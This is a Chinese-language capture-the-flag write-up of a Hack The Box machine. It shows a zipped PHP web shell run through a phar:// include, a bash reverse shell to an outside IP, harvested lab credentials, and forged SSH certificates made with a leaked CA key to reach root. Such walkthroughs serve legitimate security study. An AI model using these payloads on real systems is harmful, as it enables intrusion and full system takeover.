

# 服务
```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.27
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-06 23:58 EDT
Nmap scan report for 10.10.11.27
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d54f62397bd222f0a88ad99035605688 (ECDSA)
|_  256 fb67b06052f2127e6c13fb75f2bb1aca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2a683b9906b6c543222ecaf1704bd16 (ECDSA)
|_  256 0cc39c10f57fd3e4a8286a51ad1ae1bf (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/6%OT=22%CT=1%CU=37939%PV=Y%DS=2%DC=T%G=Y%TM=66B2F112
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11
OS:NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=3F%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   227.04 ms 10.10.16.1
2   378.41 ms 10.10.11.27

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.74 seconds

```

写域名
```
echo "10.10.11.27 itrc.ssg.htb" >> /etc/hosts
echo "10.10.11.27 ssg.htb" >> /etc/hosts
```

```
└─# python3 /root/dirsearch/dirsearch.py -u http://itrc.ssg.htb/        

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                    
 (_||| _) (/_(_|| (_| )                                                                                             
                                                                                                                    
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10929

Output File: /root/dirsearch/reports/itrc.ssg.htb/-_24-08-07_01-50-13.txt

Error Log: /root/dirsearch/logs/errors-24-08-07_01-50-13.log

Target: http://itrc.ssg.htb/

[01:50:13] Starting:                                     
[01:50:56] 200 -   46B  - /admin.php                                        
[01:51:17] 403 -  277B  - /api/                                             
[01:51:18] 301 -  310B  - /api  ->  http://itrc.ssg.htb/api/                
[01:51:20] 301 -  313B  - /assets  ->  http://itrc.ssg.htb/assets/            
[01:51:40] 200 -   46B  - /dashboard.php                                    
[01:51:41] 200 -    0B  - /db.php                                           
[01:51:57] 200 -  844B  - /home.php                                         
[01:52:01] 200 -    3KB - /index.php                                        
[01:52:01] 200 -    3KB - /index.php/login/                                 
[01:52:08] 200 -  433B  - /login.php                                        
[01:52:10] 302 -    0B  - /logout.php  ->  index.php                        
[01:52:34] 200 -  566B  - /register.php                                                                  
[01:52:55] 301 -  314B  - /uploads  ->  http://itrc.ssg.htb/uploads/        
[01:52:55] 403 -  277B  - /uploads/  
```


[admin页面](http://itrc.ssg.htb/?page=admin)看起来像有东西


不可用input下有文字,zzinter似乎是用户名
```
unavailable.contact zzinter for manual provisioning
```

上传一个空的zip文件，报错：
```

Deprecated: ZipArchive::open(): Using empty file as ZipArchive is deprecated in /var/www/itrc/savefile.inc.php on line 38

Warning: hash_file(/tmp/php9aUAgL): Failed to open stream: No such file or directory in /var/www/itrc/savefile.inc.php on line 48

Warning: Cannot modify header information - headers already sent by (output started at /var/www/itrc/savefile.inc.php:38) in /var/www/itrc/api/create_ticket.php on line 31
```




# phar序列化

参考[phar序列化](https://www.cnblogs.com/BOHB-yunying/p/11504051.html)这篇文章


准备一个php一句话木马
```
┌──(root㉿kali)-[~/htb/Resource]
└─# cat shell.php
<?php

system($_GET['cmd']);
__HALT_COMPILER();

?>

```

转成zip文件
```
zip shell.zip shell.php
```

上传到后台后，在html源码找到文件上传后的名字


使用php伪协议访问：
```
phar://uploads/b88210aea0e7bb117bce2aba10d9722190e45048.zip/shell&cmd=whoami
```


rev shell
```
http://itrc.ssg.htb/?page=phar://uploads/b88210aea0e7bb117bce2aba10d9722190e45048.zip/shell&cmd=/bin/bash+-c+%27/bin/bash+-i+%3E%26+/dev/tcp/10.10.16.2/4242+0%3E%261%27
```

# 横向提权


```
www-data@itrc:/var/www/itrc$ cat db.php
cat db.php
<?php

$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());

```

这个密码登录不了数据库


从home目录知道有两个用户

msainristil
zzinter


zip文件里有用户上传的，也有之前就存在的
搜索
```
for zipfile in *.zip; do zipgrep "zzinter" "$zipfile"; done
for zipfile in *.zip; do zipgrep "msainristil" "$zipfile"; done

```

得到一个密码
```
www-data@itrc:/var/www/itrc/uploads$ zipgrep "msainristil" c2f4813259cc57fab36b311c5058cf031cb6eb51.zip
<istil" c2f4813259cc57fab36b311c5058cf031cb6eb51.zip
itrc.ssg.htb.har:            "text": "user=msainristil&pass=82yards2closeit",
itrc.ssg.htb.har:                "value": "msainristil"

```

提权到msainristil
```
www-data@itrc:/var/www/itrc/uploads$ su msainristil
su msainristil
Password: 82yards2closeit
id
uid=1000(msainristil) gid=1000(msainristil) groups=1000(msainristil)
```

# SSH CA私钥滥用

- SSH CA（证书授权）私钥滥用是指未授权的用户或恶意攻击者利用SSH证书授权的私钥进行非法访问或操作。SSH CA允许管理员生成和签发SSH公钥证书，简化了管理和访问控制，但如果私钥被泄露或滥用，可能导致严重的安全风险。

具体步骤
```
#新建密钥对
ssh-keygen -t rsa -b 2048 -f b3rry

#使用CA私钥对公钥进行签名，并生成证书，指定zzinter为有效的用户名
ssh-keygen -s ca-itrc -I ca-itrc.pub -n zzinter b3rry.pub

#检查生成的证书
ssh-keygen -Lf b3rry-cert.pub

#使用证书，以zzinter身份去登录到主机
ssh -o CertificateFile=b3rry-cert.pub -i b3rry zzinter@localhost

```

提权到zzinter,拿到user.txt
```
msainristil@itrc:~/decommission_old_ca$ ssh -o CertificateFile=b3rry-cert.pub -i b3rry zzinter@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:PVHxOqGsN7oX50zMsl/3O2BPQ3u50UhffyNeJZuo2K4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
zzinter@itrc:~$ ls
sign_key_api.sh  user.txt

```

以同样的方法提权到root
```
#新建密钥对
ssh-keygen -t rsa -b 2048 -f root

#使用CA私钥对公钥进行签名，并生成证书，指定root为有效的用户名
ssh-keygen -s ca-itrc -I ca-itrc.pub -n root root.pub

#检查生成的证书
ssh-keygen -Lf root-cert.pub

#使用证书，以root身份去登录到主机
ssh -o CertificateFile=root-cert.pub -i root root@localhost

```

提权到root
```
msainristil@itrc:~/decommission_old_ca$ ssh -o CertificateFile=root-cert.pub -i root root@localhost
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 25 12:49:07 2024 from 10.10.14.23
root@itrc:~# 

```

但是没有root.txt文件

